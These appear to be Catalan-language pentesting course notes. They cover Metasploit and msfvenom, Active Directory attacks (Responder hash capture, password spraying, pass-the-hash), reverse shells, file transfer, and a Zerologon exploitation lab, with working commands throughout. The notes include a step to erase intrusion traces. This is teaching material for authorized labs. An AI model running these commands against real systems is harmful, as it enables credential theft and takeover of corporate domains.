msf exploit(auxiliary/scanner/smb/smb_version) > SET PAYLOAD windows/x64/meterpreter/...
Comprovar si és vulnerable (sense atacar). Molt important i sovint obligatori:
check
Altra opció molt útil és poder saber quins PAYLOADS hi ha per a un exploit. Abans de llançar l'exploit...
SHOW PAYLOADS
Metasploit NO substitueix Nmap ni un escàner de vulnerabilitats complet (com Nessus). Metasploit pot detectar possibles vulnerabilitats, però ho fa amb mòduls concrets, no amb un escaneig global automàtic.
Exemple pràctic: escanejar SMB
search type:auxiliary scanner use auxiliary/scanner/smb/smb_version set RHOSTS 192.168.1.10 run
Et diu: Versió de SMB, Sistema operatiu aproximat
Després pots buscar exploits compatibles:
search smb
msfvenom
msfvenom és una eina del Metasploit Framework que s’utilitza en seguretat informàtica per a crear payloads (càrregues útils). Un payload és un xicotet programa que fa alguna acció quan s’executa en un sistema.
Important: msfvenom no entra en cap sistema. Només genera el payload. L’explotació de la vulnerabilitat és una altra part diferent.
En entorns autoritzats (laboratoris, empreses, formació), s’usa per a:
- Simular atacs reals en pentesting
- Provar si un antivirus detecta payloads
- Entrenar equips de seguretat (red team / blue team)
- Analitzar com reaccionen els sistemes davant codi maliciós
Com funciona
- Payload : Obrir una connexió remota, Executar ordres, Obtenir informació del sistema
- Plataforma i arquitectura : El sistema operatiu de destí (Windows, Linux, Android…), L’arquitectura (x86, x64, ARM…)
- Encoders (ofuscació) : Ofuscar el payload, Canviar la seua signatura
- Format d’eixida : El payload pot generar-se com: Un executable, Un script, Una llibreria, Codi brut (shellcode)
Tot i això, no s’executa sol: cal una vulnerabilitat o una execució manual.
# Exemple de creació de payload msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=LPORT=4444 -f elf > meterpreter.elf
Este payload s'haurà de pujar a la maq víctima i executar
chmod +x meterpreter.elf ./meterpreter.elf
Una altra eina del framework de metasploit es msfupdate, que permet: Actualitzar Metasploit i Afegir nous mòduls i correccions
msfupdate
scripts
Es poden crear "resource script" (per automatitzar msf)
Exemple samba.rc: # Exploit Samba usermap_script ( comentari en .rc) use exploit/multi/samba/usermap_script set RHOST 192.168.56.101 set PAYLOAD cmd/unix/reverse set LHOST 192.168.56.1 run
I després s'executa des del SO amb
msfconsole -r samba.rc
O des de dins de msf, amb:
resource metasploitable2.rc
Atacs empresarials (Active Directory)
Introducció a AD
Active Directory (AD) és el servei de directori de Microsoft utilitzat per gestionar identitats, recursos i polítiques dins d’una xarxa empresarial. És un component clau en la majoria d’entorns Windows corporatius.
Què és un servei de directori?
Un servei de directori és una base de dades centralitzada que emmagatzema informació sobre objectes de la xarxa i permet autenticació, autorització i administració centralitzada.
Per què Active Directory és tan important?
- Centralitza la gestió d’usuaris i equips
- Controla l’accés als recursos
- Aplica polítiques de seguretat
- Escala fàcilment en entorns grans
Conceptes bàsics d’Active Directory
Domini
Un domini és una unitat administrativa lògica que agrupa usuaris, equips i recursos sota una mateixa política de seguretat.
Controlador de Domini (Domain Controller)
El Domain Controller (DC) és el servidor que allotja Active Directory i s’encarrega de:
- Autenticar usuaris
- Aplicar polítiques
- Replicar informació amb altres DC
Objectes
AD gestiona diferents tipus d’objectes:
- Usuaris
- Equips
- Grups
- Impressores
- Serveis
Unitats Organitzatives (OU)
Les OU permeten organitzar objectes de manera jeràrquica i aplicar polítiques específiques.
Autenticació a Active Directory
AD utilitza principalment:
- Kerberos (protocol principal)
- NTLM (per compatibilitat)
Group Policy (GPO)
Les Group Policies permeten definir i aplicar configuracions de seguretat i sistema de manera centralitzada:
- Polítiques de contrasenyes
- Configuració de sistemes
- Restriccions d’ús
- Execució de scripts
Configurar laboratori
Es necessita un Controlador de domini (windows server 2016, per exemple) i varios equips clients, W7 i W10 pro
Posar ip fixa en el servidor, i desactivar el firewall i Windows Defender en tots els equips.
Crear usuaris en el server, perque els clients puguen unir-se al domini. Posteriorment, unir els equips clients al domini
Atacs NTLM Relay
En un atac NTLM Relay, un atacant s'interposa en una conversa d'autenticació entre dos sistemes i retransmet les sol·licituds d'autenticació a través d'un atac d'intermediari (relay). L'objectiu principal d'aquest atac és obtindre accés no autoritzat a sistemes o recursos als quals l'atacant no té permís directe.
Es pot fer una demostració des d'una maquina kali, amb l'eina responder
$ sudo responder -I eth0

Es posa en marxa la ferramenta. Quan des d'un client s'intenta accedir a un recurs compartit, per exemple, una carpeta, al cap d'una estona, responder captura un HASH
La ferramenta responder es pot usar conjuntament amb la ferramenta ntlmrelayx.py inclosa en la llibreria impacket
Els hash Net-NTLM o Net-NTLMv2 s'han de crackejar posteriorment amb eines com john o hashcat
# En haschcat el mode 5600 és l'indicat per a hash de tipus Net-NTLMv2 hashcat -m 5600 net-ntlmhash.txt password-dic-txt --force
** Una altra opció es utilitzar responder com a un servidor WPAD i forçar l'autenticació bàsica d'usuaris per obtenir les credencials en text pla
sudo responder -I eth0 -wFb

Quan des de l'equip client, des del navegador, s'intenta obrir una pàgina que no te en cau/dns, s'obri un quadre que demana credencials. Si l'usuari de l'equip client "pica" i escriu les credencials, estes son capturades per responder i mostrades en text pla !!
Password spraying
Una vegada es tenen unes credencials, es pot fer un password spraying. Consistix en probar si amb una contrasenya es possible logejar
en diferents equips (o serveis) i diferent usuaris, donat que sovint, algunes contrasenyes són reutilitzades pels usuaris
Una eina per fer este atac es crackmapexec
sudo crackmapexec smb 192.168.56.0/24 -u "anabel" -p "Empresa00" --rid-brute
Atac Pass the Hash
Un atac pass-the-hash (PtH) es produeix quan un atacant captura les credencials d'inici de sessió d'un compte (concretament els valors hash en lloc de les contrasenyes en text pla), des d'un dispositiu i utilitza els valors hash capturats per a autenticar-se en altres dispositius o serveis dins d'una xarxa. Estos hash (LMHash i NTHaxh) s'emmagatzemen en els fitxers SAM i NTDIS.dit
L'eina crackmapexec, es pot fer servir per a recuperar hashes de SAM, amb l'opció --sam i també per fer l'atac, amb l'opciò -H
# Recuperar hash sudo crackmapexec smb 192.168.56.0/24 -u "anabel" -p "Empresa00" --sam sudo crackmapexec smb 192.168.56.0/24 -u "anabel" -p "Empresa00" --ntds vss
# Atac pass the hash sudo crackmapexec smb 192.168.56.0/24 -u "administrador" -H c84fe574ee85df553
Accions en la màquina explotada
Reverse Shell
S'ha vist en el tema anterior com fer shell inversa en linux , aprofitant les vulnerabilitats web
Es vorà en este punt com fer el mateix amb Windows
Una vegada connectats a una màquina Windows, utilitzarem Powershell per obrir connexions.
En la web PayloadsAllTheThings hi ha diferents payloads per obtenir reverseShell. Copiem-peguem i executem
Previament en la màquina kali hem d'escoltar amb nc -lnvp 9000, per exemple, encara que esta shell no estarà estabilitzada
Per estabilitzar, es pot substituir la comanda anterior per: rlwrap nc -lnvp 9000
I si no esta en el nostre kali, la baixem amb apt install
- Altres alternatives en Windows
- ConPtyShell
- Nishang
- HoaxShell
Transferència d'arxius
Amb netcat o amb un servidor HTTP
Amb nc
En la màquina que envia el document nc ip port < fitxer
En la màquina que rep el document nc -lnvp port > fitxer
Amb HTTP
En la màquina server. En una carpeta que tinga el fitxer/s sudo python3 -m http.server 80
En la màquina client wget http://ip:port/recurs o curl http://ip:puerto/recurs -o fitxer
Laboratoris
MitM amb Ettercap
Web desactualitzada en metasploitable3
Mètode HTTP PUT en Apache 2.2.21
Domain Admin amb Zerologon (CVE-2020-1472)
Afecta a Windows Server 2008R2, 2021 2012R2, 2016 i 2019, concretament a la implementació en la criptografia del protocol Netlogon Remote Protocol
Comprovar vulnerabilitat
# Canviar a su ➜ sudo su # clonar en /opt ➜ cd /opt git clone https://github.com/SecuraBV/CVE-2020-1472.git
# dins de /opt/CVE-2020-1472 , instal·lar dependències cd CVE-2020-1472 python3 -m venv .venv source .venv/bin/activate python3 -m pip install -r requeriments.txt
# provar vulnerabilitat python3 zerologon_tester.py <netbios-computer-name> <IP> python3 zerologon_tester.py VAGRANT-2008R2 10.0.2.10
Explotació de la vulnerabilitat
# desactivar entorn virtual
# canviar nom de la carpeta CVE-2020-1472
# clonar en /opt
git clone https://github.com/dirkjanm/CVE-2020-1472.git
# dins de /opt/CVE-2020-1472 , instal·lar dependències cd CVE-2020-1472 python3 -m venv .venv source .venv/bin/activate pip install impacket
# modifica la contrasenya a blanc (sense contrasenya) CVE-2020-1472-exploit.py # recupera la bbdd de hash secretsdump.py -no-pass DOMAIN/DC_NETBIOS_NAME$@DC_IP # Una vegada amb els hash , es podran usar per obrir una shell python3 psexe.py -hashes abcdef12342342341234123:BCDFAA123412343545454667667 administrator@10.0.2.10 # Acabada la fase de intrusió, hem de 'netejar'... # torna a posar la contrasenya inicial (per borrar pistes d'intrussió) restorepassword.py
Restauració de l'entorn al estat original
# clonar en /opt git clone https://github.com/risksense/zerologon.git
# python3 reinstall_original_pw.py DC_NETBIOS_NAME DC_IP abcdef12342342341234123:BCDFAA123412343545454667667